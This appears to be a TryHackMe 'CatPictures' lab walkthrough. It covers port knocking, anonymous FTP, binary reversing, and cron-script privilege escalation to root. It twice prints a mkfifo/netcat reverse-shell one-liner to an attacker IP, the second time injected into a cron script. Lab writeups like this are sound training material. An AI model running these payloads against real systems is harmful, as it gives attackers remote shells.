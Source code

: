 title: CatPictures TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/1.jpeg)

## Scanning
We use **nmap** to scan all ports, along with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/2.png)

## Enumeration
We access the web service, list a forum under the phpBB CMS.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/3.png)

We review the site, we find a post where they mention "knock" and a sequence, this already makes us think that there must be some other hidden service and that we will have to make use of port knock.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/4.png)

We make use of the **knock** tool of this [github](https://github.com/grongor/knock), we execute the tool following the port order.

We run **nmap** again and list a new port associated with the FTP service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/5.png)

We connect through the **FTP service** using *"anonymous"* credentials, list a file *"note.txt"*, download, read content and it gives us credentials and instructions on where to use them.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/6.png)


## Exploitation
We use **netcat** to connect to the service, specify the password and get a connection to the machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/7.png)

We know the user thanks to the note that was in the **FTP service**, so we read the files in his folder and we see that to read it we will need to have an interactive shell.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/8.png)

Seeing that I could hardly execute any commands, I listed the whole list of available binaries, so I tried to invoke another new shell with this surprise:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/9.png)

#### Reverse shell with root

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/10.png)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

Now it lets us run the binary, but it seems that something is wrong, we download the binary to our Kali, we examine it with **Ghidra** and we enumerate the *SSH password*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/11.png)

Now we execute the binary with the password and we will obtain the *"id_rsa"* file to be able to access by **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/12.png)

We connect via SSH, we are as root on the Docker machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/13.png)

#### Read flag.txt

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/14.png)

## Privilege Escalation

We read the file *".bash_history"*, we find a log of executions in the system, thanks to it we list a script called *"clean.sh"* that runs in **crontab** (yes, the same one that deleted the files in the folder */tmp/* ;) ).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/15.png)

We transfer **pspy64** with **curl** (wget didn't work for me), give it permissions and run it to know the execution time of the *crontab script*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/16.png)

We add our payload to obtain a *reverse shell* and put a **netcat** listening.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/17.png)

We wait a few minutes and we will be able to read the *root flag*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/18.png)




